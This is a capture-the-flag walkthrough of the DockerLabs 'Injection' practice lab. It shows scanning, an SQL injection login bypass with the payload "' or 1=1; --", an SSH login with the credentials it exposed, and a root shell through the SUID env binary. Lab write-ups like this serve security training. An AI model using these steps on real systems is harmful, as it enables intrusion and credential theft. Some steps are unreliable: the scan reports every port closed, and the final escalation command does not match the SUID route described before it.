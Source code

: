 #Injection DockerLabs - 14/05/2024

#web - https://dockerlabs.es/#/

We start with a basic nmap scan:

```shell
└─$ nmap -sVC -p- -n --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 20:23 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00021s latency).
All 65535 scanned ports on 172.17.0.2 are in ignored states.
Not shown: 65535 closed tcp ports (conn-refused)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.19 seconds

```

We performed a subdomain scan with gobuster to "http://172.17.0.2":

```shell
└─$ gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,py,bak        
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,py,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 2921]
/config.php           (Status: 200) [Size: 0]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1102800 / 1102805 (100.00%)
===============================================================
Finished
===============================================================

```

We enter "http://172.17.0.2/index.php/" and we see that there is a web login.
We tried to bypass it by using the vunerability "sql injection":

```shell
' or 1=1; --
```

![Captura de pantalla 2024-05-14 195628](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/5da299de-f3ce-4ad0-a18f-b7c21ab565af)

We manage to bypass it and see a user "Dylan" and a password "KJSDFG789FGSDF78":

![Captura de pantalla 2024-05-14 195654](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/6d613173-33fe-46f4-9d63-420a7895c706)

We enter this data on the ssh server:


```shell                                                                   
└─$ ssh dylan@172.17.0.2                                                                                                  
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.6.9-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

```

We are looking for binaries with permissions SUID

```shell
dylan@37ab85f5f7a7:~$ find / -perm -4000 -user root 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/chsh
/usr/bin/env
/usr/bin/su
/usr/bin/chfn
/usr/bin/passwd

```

We look for the env binary in "https://gtfobins.github.io/gtfobins/env/".
Execute the web command:

```shell
sudo env /bin/sh
```
